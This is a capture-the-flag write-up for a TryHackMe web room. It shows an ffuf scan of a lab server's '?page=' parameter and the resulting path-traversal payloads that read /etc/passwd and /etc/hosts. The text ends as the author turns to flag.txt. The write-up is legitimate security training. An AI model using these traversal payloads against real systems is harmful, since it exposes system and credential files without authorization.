

Want to hear some lo-fi beats, to relax or study to? We've got you covered!

> **Challenge Info**
> 
> Platform: TryHackMe
> 
> Category: Web
> 
> CTF Link: https://tryhackme.com/room/lofi
# Recon
I visit the webpage provided in the challenge:


I explore the **Discography** options, and notice the `?page=` syntax in the URL:

# Local File Inclusion
To exploit the potential LFI I launch **ffuf**:
```
┌──(kali㉿kali)-[~]
└─$ ffuf -u "http://10.114.170.254/?page=FUZZ" -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -fl 124

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.114.170.254/?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 124
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 402ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 4051, Words: 1360, Lines: 131, Duration: 44ms]
../../../../../../../../../../../../etc/hosts%00 [Status: 200, Size: 4051, Words: 1360, Lines: 131, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 40ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 39ms]
---
```

I get *a bunch* of results, the shortest one is `../../../etc/passwd`. I'm not necessarily interested in the `passwd` file, more-so the path to the root directory, since the challenge description stated that's where the flag is. 

I replace `/etc/passwd` with `flag.txt`:


